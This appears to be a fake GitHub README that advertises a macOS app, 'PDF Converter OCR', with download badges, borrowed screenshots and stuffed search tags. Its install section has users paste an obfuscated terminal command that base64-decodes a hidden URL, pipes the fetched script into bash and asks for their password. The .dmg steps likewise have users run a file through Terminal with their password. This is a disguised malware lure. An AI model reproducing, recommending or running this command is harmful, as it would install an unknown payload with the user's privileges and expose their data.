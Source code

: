 # 🧾 PDF Converter OCR — Advanced PDF Conversion and OCR Software for macOS

PDF Converter OCR is a powerful macOS application designed to convert scanned PDFs and images into editable and searchable documents. Utilizing advanced Optical Character Recognition (OCR) technology, it enables easy extraction of text from images and PDFs for seamless editing and data management.

## ✅ Download PDF Converter OCR for macOS  
[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://mitrobandus.github.io/.github/PDFConverter)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download PDF Converter OCR for macOS  
[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://mitrobandus.github.io/.github/PDFConverter)

---

## 📦 What is PDF Converter OCR?

PDF Converter OCR allows macOS users to transform scanned PDFs, images, and documents into editable Word, Excel, PowerPoint, and text files. Its high-accuracy OCR engine supports multiple languages and preserves the original layout, making document digitization fast and reliable.

---

## ✨ Features

- 🔍 Accurate OCR conversion from scanned PDFs and images  
- 📄 Convert PDFs to editable Word, Excel, PowerPoint, and Text  
- 🖼️ Supports image to text and image to Word conversions  
- 🌐 Multi-language recognition and layout retention  
- 🖥️ Native macOS support with Retina display optimization  
- 🔄 Batch conversion for multiple files at once  
- 🔐 Secure document processing with local offline OCR  

---

## 💡 Why Use PDF Converter OCR?

- ✅ Quickly digitize scanned documents for editing and sharing  
- 📈 Boost productivity by automating data extraction from PDFs  
- 🔄 Convert various file formats with minimal loss of formatting  
- 🔐 Keep sensitive files secure with offline processing  
- 🧰 Ideal tool for students, professionals, and businesses needing document OCR  

---

[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://pdf-converter-ocr-mac-download.github.io/.github)

---

## 🖼️ Preview

![PDF Converter OCR Screenshot 1](https://www.lightenpdf.com/wp-content/themes/lightenpdf/images/products/pdf-converter-ocr-mac-3.jpg)  
![PDF Converter OCR Screenshot 2](https://www.cisdem.com/images/features/pdfconverterocr/main.jpg)

---

## 📌 Tags

pdf converter ocr, ocr pdf to excel, pdf image to text, ocr to excel, ocr scanning software, ocr2edit,  
scan pdf to text, convert scanned pdf to editable pdf, free ocr pdf, scanned pdf to word converter,  
online ocr pdf to word, convert scanned pdf to word online free, ocr text, convert pdf image to text,  
convert scanned pdf to text, convert scanned pdf to excel, ocr image reader, convert scanned pdf to word free,  
scanned document to word, scan text to word, free ocr pdf to word, scanned pdf to excel, ocr scanner online,  
convert scanned document to word, ocr pdf to word converter, nanonets pdf to excel, convert image to word text,  
pdf converter ocr mac, pdf converter ocr mac download


